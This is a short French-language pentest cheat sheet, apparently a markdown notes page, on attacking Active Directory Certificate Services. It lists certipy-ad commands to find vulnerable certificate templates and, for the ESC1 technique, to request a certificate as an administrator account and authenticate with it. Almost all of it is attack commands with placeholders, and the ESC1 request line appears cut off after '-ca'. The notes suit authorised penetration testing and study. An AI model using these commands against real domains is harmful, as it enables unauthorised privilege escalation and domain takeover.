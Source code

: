# ADCS

```
# certipy-ad find -u '<USER>@<DOMAIN.LOCAL>' -password '<PASS>' -dc-ip <DC-IP> -scheme ldap
# Lire le fichier pour trouver les certificats vulnérables
```



#### ESC1

<pre><code><strong># certipy-ad req -u '&#x3C;USER>@&#x3C;DOMAIN.LOCAL>' -password '&#x3C;PASS>' -target-ip &#x3C;SERVEUR QUI GERE LES CERTS> -ca
</strong># certipy-ad auth -pfx 'administrat&#x3C;eur/or>.pfx' -username 'administrat&#x3C;eur/or>' -domain &#x3C;DOMAIN.LOCAL> -dc-ip &#x3C;DC-IP>
</code></pre>

